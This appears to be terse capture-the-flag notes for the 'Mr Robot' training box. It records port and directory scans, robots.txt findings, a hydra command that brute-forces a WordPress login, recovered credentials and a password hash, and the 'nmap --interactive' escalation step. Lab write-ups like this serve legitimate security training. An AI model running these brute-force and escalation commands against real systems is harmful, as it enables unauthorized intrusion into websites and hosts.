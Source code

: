 `export IP=10.10.211.101`

#nmap scan PORT STATE SERVICE 22/tcp closed ssh 80/tcp open http 443/tcp open
https

#gobuster result /images (Status: 301) /index.php (Status: 301) /blog
(Status: 301) /sitemap (Status: 200) /rss (Status: 301) /login (Status: 302) /0
(Status: 301) /feed (Status: 301) /video (Status: 301) /image (Status: 301)
/atom (Status: 301) /wp-content (Status: 301) /admin (Status: 301) /audio
(Status: 301) /intro (Status: 200) /wp-login (Status: 200) /wp-login.php
(Status: 200) /css (Status: 301) /rss2 (Status: 301)

#robots.txt User-agent: \* fsocity.dic key-1-of-3.txt

#hydra
`hydra -l elliot -P fsocity.dic $ip http-post-form "/wp-login/:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.211.101%2Fwp-admin%2F&testcookie=1:The password"`

#creds wp-login.php:80 elliot:ER28-0652 robot:c3fcd3d76192e4007dfb496cca67e13b
`nmap --interactive`
